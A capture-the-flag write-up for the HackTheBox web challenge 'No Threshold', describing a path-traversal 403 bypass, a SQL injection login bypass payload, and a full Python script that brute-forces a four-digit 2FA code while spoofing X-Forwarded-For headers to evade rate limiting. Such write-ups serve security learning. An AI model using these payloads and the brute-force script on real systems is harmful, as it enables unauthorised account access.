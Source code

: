 ```yaml
---
title: No Threshold
tags:
  - HackTheBox
  - Challenge
  - Web
  - 403_Bypass
  - SQLi
  - Python-Scripting
---
```

![](Pasted%20image%2020241122112333.png)

It seems to be kinda shop. If I try to login I get a Forbidden error:

![](Pasted%20image%2020241122112404.png)

I have to bypass this, so I captured the request with Burp:

![](Pasted%20image%2020241122112445.png)

> With `/../auth/login` I can bypass it :D

![](Pasted%20image%2020241122112522.png)

If we read the `entrypoint.sh` we notice that there is a random user created, so might be a SQLi vulnerability on the login:

![](Pasted%20image%2020241122112746.png)

I captured the request and try some SQLis:

![](Pasted%20image%2020241122113207.png)

It actually worked with `admin' OR 1=1 -- -` (URL encoded) :D

Now I got into a 2FA panel verification:

![](Pasted%20image%2020241122113324.png)

Inspecting the source code, I noticed that the 2FA code has 4 digits, so I can try to bruteforce it:

![](Pasted%20image%2020241122113530.png)

So I decided to create a python script to bruteforce it:

```python
import requests
import sys
import argparse
from concurrent.futures import ThreadPoolExecutor

# Colores para las impresiones
GREEN = '\033[92m'
BLUE = '\033[94m'
RED = '\033[91m'
RESET = '\033[0m'

def get_combinations_in_array(path):
    with open(path, 'r') as f:
        return f.read().splitlines()


def handle_response(response, combination):
    if "Invalid 2FA Code!" in response.text:
        # Mostrar intentos en verde
        print(f'{GREEN}Try: {combination}{RESET}\n')
        return
    elif "flag" in response.text:
        # Mostrar flag en azul
        print(f'{BLUE}GOT IT!\n2FA Code: {combination}\n{response.text}{RESET}\n')
        sys.exit()
    else:
        # Mostrar errores en rojo
        print(f'{RED}{response.text}{RESET}')


def send_request(ip, combination, headers, url):
    headers['X-Forwarded-For'] = ip
    data = {'2fa-code': str(combination)}

    response = requests.post(url, headers=headers, data=data)
    handle_response(response, combination)


def send_all_requests(url, combinations_array, ip_suffix):
    base_ip = '192.168.'
    current_ip_suffix = list(map(int, ip_suffix.split('.')))  # Convertir a lista de enteros
    headers = {
        'Host': '83.136.254.158:36141',
        'Content-Length': '13',
        'Cache-Control': 'max-age=0',
        'Origin': 'http://83.136.254.158:36141',
        'Content-Type': 'application/x-www-form-urlencoded',
        'Upgrade-Insecure-Requests': '1',
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8',
        'Sec-GPC': '1',
        'Accept-Language': 'en-US,en',
        'Referer': 'http://83.136.254.158:36141/auth/verify-2fa',
        'Accept-Encoding': 'gzip, deflate, br',
        'Connection': 'keep-alive'
    }

    # Multi-threading requests sending (see python ThreadPoolExecutor lib for more information)
    with ThreadPoolExecutor(max_workers=100) as executor:
        futures = []

        for i, combination in enumerate(combinations_array, start=1):
            ip = base_ip + str(current_ip_suffix[0]) + '.' + str(current_ip_suffix[1])

            future = executor.submit(send_request, ip, combination, headers, url)
            futures.append(future)

            if i % 5 == 0:
                current_ip_suffix[1] += 1

            if current_ip_suffix[1] > 254:
                current_ip_suffix[1] = 1
                current_ip_suffix[0] += 1

            if current_ip_suffix[0] > 254:
                current_ip_suffix = [1, 1]

            for future in futures:
                future.result()


def parse_arguments():
    parser = argparse.ArgumentParser(description="Brute force 2FA codes to find the flag.")
    parser.add_argument('--target', type=str, required=True, help='The target URL (e.g., http://example.com)')
    parser.add_argument('--combinations', type=str, required=True, help='Path to the file containing the list of 2FA combinations')
    parser.add_argument('--ip-suffix', type=str, required=True, help='The IP suffix to use for requests (e.g., 1.1)')

    return parser.parse_args()


if __name__ == '__main__':
    args = parse_arguments()

    combinations_array = get_combinations_in_array(args.combinations)
    send_all_requests(args.target, combinations_array, args.ip_suffix)

```


>[!Note]
>Since the 2fa code valid time is 5 mins, I'm splitting the wordlist into 5 wordlists of 2000 words each

![](Pasted%20image%2020241122170553.png)

I created the wordlists with the following commands:

```shell
seq -w 0000 2000 > 0k2k-digit-wordlist.txt
seq -w 2001 4000 > 2k4k-digit-wordlist.txt
seq -w 4001 6000 > 4k6k-digit-wordlist.txt
seq -w 6001 8000 > 6k8k-digit-wordlist.txt
seq -w 8001 9999 > 8k10k-digit-wordlist.txt

# Then open a console for each one like:
python x.py --target http://83.136.254.158:36141/auth/verify-2fa --combinations ./4k6k-digit-wordlist.txt  --ip-suffix 13.1
```

I executed different intervals at same time:

![](Pasted%20image%2020241122171242.png)

> Finally got it :D

![](Pasted%20image%2020241122171427.png)

==Challenge completed!==